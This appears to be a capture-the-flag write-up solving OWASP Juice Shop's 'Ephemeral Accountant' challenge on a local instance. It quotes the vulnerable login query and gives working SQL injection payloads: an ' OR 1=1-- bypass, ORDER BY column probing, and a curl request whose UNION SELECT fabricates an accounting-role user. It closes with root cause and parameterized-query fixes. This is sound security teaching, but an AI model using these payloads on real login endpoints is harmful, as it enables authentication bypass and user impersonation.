



# Ephemeral Accountant

## Challenge Information

* **Category:** Injection
* **Challenge:** Ephemeral Accountant
* **Difficulty:** 4⭐
* **Objective:** Log in as the non-existent user `acc0unt4nt@juice-sh.op` with the `accounting` role without permanently creating the account in the database.

The challenge is designed around SQL injection. The intended solution is to manipulate the vulnerable login query so that it returns a fabricated user record. The user must exist only in the SQL query result, which is why the challenge is described as **ephemeral**.

---

## Reconnaissance / Discovery

### 1. Identify the target login endpoint

The Juice Shop login functionality uses:

```text
POST /rest/user/login
```

A normal authentication attempt against the challenge account fails:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"acc0unt4nt@juice-sh.op","password":"test"}'
```

The server responds with:

```text
HTTP/1.1 401 Unauthorized
Invalid email or password.
```

This confirms that the target account does not provide a normal login path.

---

### 2. Inspect the login implementation

The login route was searched for references to the challenge:

```bash
grep -Rni -C 12 -E "ephemeral|acc0unt4nt|accountant" \
  /var/lib/juice-shop/routes \
  /var/lib/juice-shop/build/routes \
  /var/lib/juice-shop/data \
  /var/lib/juice-shop/models 2>/dev/null | head -200
```

The relevant logic was found in:

```text
/var/lib/juice-shop/routes/login.ts
```

The login query directly inserts the supplied email and hashed password into a SQL statement:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

The user-controlled email is therefore placed directly inside the SQL query.

This creates an SQL injection attack surface.

---

### 3. Confirm SQL injection

A quote was appended to the email parameter:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"acc0unt4nt@juice-sh.op'\''","password":"test"}'
```

The malformed SQL causes the server to return a SQLite/Sequelize error.



This confirms that the email parameter is being interpreted as part of the SQL statement rather than being safely parameterized.

---

## Attack Surface

The vulnerable endpoint is:

```text
POST /rest/user/login
```

The primary attack surface is the `email` JSON parameter:

```json
{
  "email": "USER_INPUT",
  "password": "USER_INPUT"
}
```

The vulnerable query structure is effectively:

```sql
SELECT *
FROM Users
WHERE email = 'USER_INPUT'
AND password = 'HASHED_PASSWORD'
AND deletedAt IS NULL
```

Because the email value is concatenated into the query, SQL syntax can be injected through this parameter.

---

## Validation

### Authentication bypass

The injection was first tested using:

```text
' OR 1=1-- 
```

This caused the login endpoint to return a successful authentication response rather than the expected `401 Unauthorized`.

This demonstrated that the login query could be manipulated.

However, a simple authentication bypass was not sufficient to solve the challenge because the returned user needed to have:

```text
email = acc0unt4nt@juice-sh.op
role  = accounting
```

The challenge also checks that the accountant does **not** exist in the database.

---

### Determine the number of columns

The vulnerable query uses:

```sql
SELECT * FROM Users
```

The number of columns was determined with `ORDER BY` testing.

The important observations were:

```text
ORDER BY 12 → succeeds
ORDER BY 13 → succeeds
ORDER BY 14 → fails
```

Therefore, the query returns **13 columns**.

The `User` model defines the relevant fields, including:

```text
id
username
email
password
role
deluxeToken
lastLoginIp
profileImage
totpSecret
isActive
createdAt
updatedAt
deletedAt
```

This provides the structure required for a compatible `UNION SELECT`.

---

## Exploitation

### 1. Create a fabricated user row

The objective is not to insert a new account into the database.

Instead, the SQL query is modified so that the database returns a fabricated row containing the required accountant information.

The injection uses:

```sql
' AND 1=0
UNION SELECT ...
```

The `AND 1=0` condition prevents the original `Users` query from returning an existing user.

The `UNION SELECT` then supplies a manually constructed 13-column row.

The working request was:

```bash
curl -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"'\'' AND 1=0 UNION SELECT 1,'\''test'\'','\''acc0unt4nt@juice-sh.op'\'','\''test'\'','\''accounting'\'','\'''\'' ,'\''0.0.0.0'\'','\''/assets/public/images/uploads/default.svg'\'','\'''\'',1,NULL,NULL,NULL-- ","password":"test"}'
```

The fabricated row contains:

```text
username       → test
email          → acc0unt4nt@juice-sh.op
password       → test
role           → accounting
lastLoginIp    → 0.0.0.0
profileImage   → /assets/public/images/uploads/default.svg
totpSecret     → empty
isActive       → 1
```

The remaining timestamp/deletion fields are supplied as `NULL`.

---

### 2. Successful authentication

The manipulated query returns the fabricated accountant as the login result.

The response contains the challenge email and accounting role:

```text
acc0unt4nt@juice-sh.op
accounting
```



The authentication response also contains a JWT. The token was redacted before including the screenshot in this repository.

---

## Why the Account Is Ephemeral

The challenge contains an additional verification condition.

After login, Juice Shop checks whether:

```text
email = acc0unt4nt@juice-sh.op
```

and:

```text
role = accounting
```

It then checks the database:

```ts
UserModel.count({
  where: {
    email: 'acc0unt4nt@' + config.get<string>('application.domain')
  }
})
```

The challenge is solved only when:

```text
count === 0
```

This is the key distinction between creating a real account and fabricating one through SQL injection.

The `UNION SELECT` produces the accountant **only in the result set returned by the SQL query**.

It does not insert a persistent `User` record.

Therefore:

```text
SQL query result → accountant exists
Database → accountant does not exist
```

That is what makes the account ephemeral.

---

## Challenge-Specific Protection

The user model also contains an `afterValidate` hook that explicitly rejects attempts to create the challenge account through the normal model layer.

The relevant logic checks for:

```text
acc0unt4nt@juice-sh.op
```

and rejects the creation attempt.

This reinforces that normal registration or directly inserting the account is not the intended solution.

---

## Evidence

### SQL Injection

The malformed email causes the login query to fail with a SQL/SQLite error, demonstrating that user input reaches the SQL statement unsafely.


### Fabricated Accountant

The `UNION SELECT` returns the required accountant identity and `accounting` role without creating the user normally.


### Challenge Verification

The challenge API confirms successful completion:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="ephemeralAccountantChallenge") | "\(.name) | solved=\(.solved)"'
```

Result:

```text
Ephemeral Accountant | solved=true
```



---

## Security Impact

This vulnerability allows an attacker to manipulate the authentication SQL query and cause the application to treat attacker-controlled data as a legitimate user record.

Depending on the application's authorization logic, this type of SQL injection can potentially result in:

* Authentication bypass
* Impersonation of users
* Fabrication of user attributes
* Privilege escalation
* Access to functionality intended for specific roles

In this challenge, the injected row specifically assigns the fabricated user the `accounting` role.

---

## Root Cause

The primary root cause is **SQL query construction through string concatenation**.

The vulnerable pattern is:

```ts
`SELECT * FROM Users WHERE email = '${req.body.email}' ...`
```

User-controlled input should never be concatenated directly into SQL statements.

The application should instead use parameterized queries or Sequelize query methods that safely bind user input.

Conceptually:

```sql
SELECT *
FROM Users
WHERE email = ?
AND password = ?
AND deletedAt IS NULL
```

The database driver then treats the supplied values as data rather than executable SQL syntax.

---

## Lessons Learned

### 1. SQL injection is more than authentication bypass

A basic payload such as:

```text
' OR 1=1-- 
```

can demonstrate a vulnerability, but more advanced SQL injection can manipulate the actual structure and contents of returned records.

### 2. UNION SELECT can fabricate application data

When the number of columns and compatible data types are known, `UNION SELECT` can be used to introduce attacker-controlled rows into the application's result set.

### 3. Application logic matters

The challenge could not be solved by simply creating the accountant account.

The post-login challenge logic required:

```text
accountant returned by query
+
accountant absent from database
```

Understanding the application source was therefore essential.

### 4. Database state and query results are different

A record appearing in an SQL result does not necessarily mean that the record exists persistently in the database.

This distinction is especially important when analyzing SQL injection and authorization behavior.

### 5. Source-code analysis can reveal the intended attack path

Examining:

```text
routes/login.ts
models/user.ts
```

revealed both the vulnerable query and the conditions required for the challenge to be solved.

---

## Conclusion

The Ephemeral Accountant challenge was solved by exploiting SQL injection in the login email parameter.

The attack first confirmed SQL injection, then determined that the vulnerable `Users` query returned 13 columns. A `UNION SELECT` was subsequently used to fabricate a user with:

```text
Email: acc0unt4nt@juice-sh.op
Role: accounting
```

The fabricated user was returned by the SQL query without being stored in the database, satisfying the challenge's requirement for an **ephemeral accountant**.

The challenge was verified as:

```text
Ephemeral Accountant | solved=true
```
